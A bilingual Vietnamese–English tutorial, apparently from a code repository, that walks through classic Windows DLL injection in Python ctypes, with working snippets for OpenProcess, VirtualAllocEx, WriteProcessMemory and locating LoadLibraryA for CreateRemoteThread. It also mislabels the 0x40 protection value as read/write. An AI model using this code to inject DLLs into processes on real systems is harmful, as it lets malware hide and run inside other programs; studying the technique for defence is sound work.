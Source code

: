 # DLL INJECTION
### Các bước tiến hành DLL Injection - Steps to perform DLL Injection
   - Tấn công tiến trình - Attach to the process 
   - Phân bổ bộ nhớ chứa tiến trình - Allocate memory within the process
   - Chép đường dẫn DLL vào bộ nhớ tiến trình - Copy the DLL path into process memory    - Tạo luồng với tiến trình để thực thi DLL - Create a thread within the process to execute your DLL
### Danh sách API sử dụng - List APIs
- OpenProcess()
- VirtualAllocEx()
- WriteProcessMemory()
- LoadLibraryA()
- CreateRemoteThread(), NtCreateThreadEx, etc.
### Win32 API
- Tạo cách định nghĩa cho hàm muốn gọi 
We’ll create definitions for the functions we want to call.

```
kernel32 = ctypes.windll.kernel32

LPCTSTR = ctypes.c_char_p 
SIZE_T = ctypes.c_size_t

OpenProcess = kernel32.OpenProcess
OpenProcess.argtypes = (ctypes.wintypes.DWORD, ctypes.wintypes.BOOL, ctypes.wintypes.DWORD)
OpenProcess.restype = ctypes.wintypes.HANDLE

VirtualAllocEx = kernel32.VirtualAllocEx
VirtualAllocEx.argtypes = (ctypes.wintypes.HANDLE, ctypes.wintypes.LPVOID, SIZE_T, ctypes.wintypes.DWORD, ctypes.wintypes.DWORD)
VirtualAllocEx.restype = ctypes.wintypes.LPVOID

WriteProcessMemory = kernel32.WriteProcessMemory
WriteProcessMemory.argtypes = (ctypes.wintypes.HANDLE, ctypes.wintypes.LPVOID, ctypes.wintypes.LPCVOID, SIZE_T, ctypes.POINTER(SIZE_T))
WriteProcessMemory.restype = ctypes.wintypes.BOOL

GetModuleHandle = kernel32.GetModuleHandleA
GetModuleHandle.argtypes = (LPCTSTR, )
GetModuleHandle.restype = ctypes.wintypes.HANDLE

GetProcAddress = kernel32.GetProcAddress
GetProcAddress.argtypes = (ctypes.wintypes.HANDLE, LPCTSTR)
GetProcAddress.restype = ctypes.wintypes.LPVOID

class _SECURITY_ATTRIBUTES(ctypes.Structure):
    _fields_ = [('nLength', ctypes.wintypes.DWORD),
                ('lpSecurityDescriptor', ctypes.wintypes.LPVOID),
                ('bInheritHandle', ctypes.wintypes.BOOL)]

SECURITY_ATTRIBUTES = _SECURITY_ATTRIBUTES
LPSECURITY_ATTRIBUTES = ctypes.POINTER(_SECURITY_ATTRIBUTES)
LPTHREAD_START_ROUTINE = ctypes.wintypes.LPVOID


CreateRemoteThread = kernel32.CreateRemoteThread
CreateRemoteThread.argtypes = (ctypes.wintypes.HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, ctypes.wintypes.LPVOID, ctypes.wintypes.DWORD, ctypes.wintypes.LPDWORD)
CreateRemoteThread.restype = ctypes.wintypes.HANDLE

MEM_COMMIT = 0x0001000
MEM_RESERVE = 0x00002000
PAGE_READWRITE = 0x04
EXECUTE_IMMEDIATELY = 0x0
PROCESS_ALL_ACCESS = (0x000F0000 | 0x00100000 | 0x00000FFF)
```
### OpenProcess()
- Sử dụng OpenProcess để trả về 1 handle để xử lí tiến trình chúng ta cần tương tác
We will use OpenProcess() to return a handle to the process so we can interact with it
```
handle = OpenProcess(PROCESS_ALL_ACCESS, False, pid)
```
- OpenProcess() có 3 tham số - OpenProcess() takes three arguments.
    - dwDesiredAccess - Đây là quyền truy cập vào tiến trình. Để sử dụng WriteProcessMemory, handle phải có quyền PROCESS_VM_WRITE và PROCESS_VM_OPERATION vào tiến trình.
 (This is the access rights to the process. In order to use WriteProcessMemory, the handle must have PROCESS_VM_WRITE and PROCESS_VM_OPERATION access to the process.)
    - bInheritHandle -Nếu giá trị này là TRUE, thì tiến trình được tạo bởi quá trình này cũng sẽ kế thừa handle. Chúng ta không cần điều này vì vậy chúng ta đặt nó thành FALSE. 
    (If this value is TRUE, then the process created by this process will also inherit the handle. We don’t need this so we set it to false.)
   - dwProcessID - Đây là id của tiến trình 
   This is the process id of the process to be opened.
### VirtualAllocEx()
- VirtualAllocEx() lấy một lượng bộ nhớ để phân bổ các tham số của nó.
VirtualAllocEx() takes amount of memory to allocate as one of its parameters.
```
memory = VirtualAllocEx(handle, False, len(dllname) + 1, MEM_COMMIT | MEM_RESERVE, PAGE_READWRIT
E)
```

- VirtualAllocEx() có 5  tham số - VirtualAllocEx()takes five arguments.
     - hProcess - Đây là handle tiến trình. Hàm này sẽ phân bổ bộ nhớ trong không gian địa chỉ ảo của tiến trình.
     This is the handle to the process. The function will allocate memory within the virtual address space of this process.
    - lpAddress - Đây là một con trỏ tới địa chỉ bắt đầu của vùng trang bạn muốn phân bổ. Nếu là NULL, hàm sẽ xác định vị trí cấp phát vùng.
    This is a pointer to the starting address of the region of pages you want to allocate. If this is NULL, the function will determine where to allocate the region.
    - dwSize - Đây là kích thước của vùng bộ nhớ để phân bổ, tính bằng byte. Chúng ta sẽ phân bổ không gian cho đường dẫn đầy đủ của DLL.
    This is the size of the region of memory to allocate, in bytes. We will allocate space for the full path of the DLL.
    - flAllocationType and flProtect - cho biết loại phân bổ và bảo vệ bộ nhớ, chúng ta dùng 0x3000 cho loại phân bổ sẽ gọi VirtualAllocEx với MEM_RESERVE và MEM_COMMIT. 0x40 chỉ ra rằng bộ nhớ có thể đọc và ghi được.
    This indicates the allocation type and memory protection. We will use 0x3000 for the allocation type which will call VirtualAllocEx with MEM_RESERVE and MEM_COMMIT. 0x40 indicates that the memory is readable and writable.
### WriteProcessMemory()
Chép đường dẫn DLL vào tiến trình. 
Now we will copy the DLL path into the process. We can use WriteProcessMemory to do so.
```
write = WriteProcessMemory(handle, memory, dllname, len(dllname) + 1, None)
```
### LoadLibraryA() và CreateRemoteThread() 
- Tới đây chúng ta có DLL đã viết vào tiến trình đích, chúng ta bắt đầu một luồng mới để thực thi file DLL
Now that we have our DLL written to the remote process, we can start a new thread to load our DLL. 
- Đầu tiên cần xác định vị trí của LoadLibrary(). Để làm được chúng ta cần GetProcAddress và GetModuleHandle.
First,we need to find the location of LoadLibrary(). To do so, we’ll use GetProcAddress and GetModuleHandle.
- GetProcAddress sẽ truy xuất địa chỉ của hàm hoặc biến đã xuất từ tệp DLL.
GetProcAddress will retrieve the address of an exported function or variable from a DLL. 
- GetModuleHandle sẽ truy xuất handle module tới module đã chỉ định 
GetModuleHandle to retrieve a module handle to a specified module.
```
load_lib = GetProcAddress(GetModuleHandle(b"kernel32.dll"), b"LoadLibraryA")
```
- Chúng ta đã có địa chỉ load library. Việc cần làm tiếp theo là tạo một luồng tới DLL đã tải lên. 
We have the load library address now, all we need to do is to create a thread to execute the loaded DLL.

./dll_injec.py -p <PID> -f <PATH_TO_DLL>
